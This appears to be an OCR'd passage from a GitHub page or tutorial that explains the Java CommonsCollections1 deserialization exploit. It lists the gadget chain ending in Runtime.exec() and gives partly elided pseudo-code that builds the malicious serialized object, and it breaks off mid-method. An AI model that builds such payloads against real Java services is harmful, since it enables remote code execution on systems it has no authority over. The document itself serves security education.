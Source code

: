 





#### Put it all together

*Building payload: Create malicious serialized object.*



##### Gadget chain:

```java
Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```



##### Pseudo code:

```java
package com.deserialize.payload;

import ...;

public class CommonsCollections1All {

    public static void main(String... args) {
        Object evilObject = getEvilObject();
        byte[] serializedObject = serializeToByteArray(evilObject); // Payload: Malicious serialized object
	}

    public static Object getEvilObject() {
        
        // RCE with LazyMap and ChainedTransformer
        String[] command = {"..."};
        final Transformer[] transformers = new Transformer[]{

                new ConstantTransformer(Runtime.class),

                new InvokerTransformer(), 

                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        

```